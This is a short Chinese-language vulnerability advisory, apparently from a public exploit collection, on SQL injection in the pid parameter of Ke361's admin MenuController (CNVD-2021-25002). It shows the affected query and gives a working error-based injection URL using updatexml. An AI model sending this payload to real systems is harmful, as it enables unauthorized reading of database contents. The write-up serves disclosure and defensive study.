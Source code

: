 # Ke361 MenuController.class.php 后台SQL注入漏洞 CNVD-2021-25002

## 漏洞描述

Ke361 MenuController.class.php文件 index() 函数中的pid参数存在 SQL注入漏，导致攻击者通过漏洞可以获取数据库敏感信息

## 漏洞影响

```
Ke361
```

## 环境搭建

https://gitee.com/jcove/ke361

## 漏洞复现

存在漏洞的文件为 `Application/Admin/Controller/MenuController.class.php`

![image-20220518153611158](images/202205181536242.png)

Get 传参 pid 传入SQL语句

```
SELECT `id`,`title`,`pid`,`sort`,`url`,`hide`,`tip`,`group`,`is_dev`,`status` FROM `ke_menu` WHERE (id=1)
```

使用括号闭合语句，构造SQL注入

```
/admin.php?s=/Menu/index/pid/1)%20AND%20updatexml(1,concat(0x7e,(select%20md5(1)),0x7e),1)--+
```

![image-20220518153624882](images/202205181536951.png)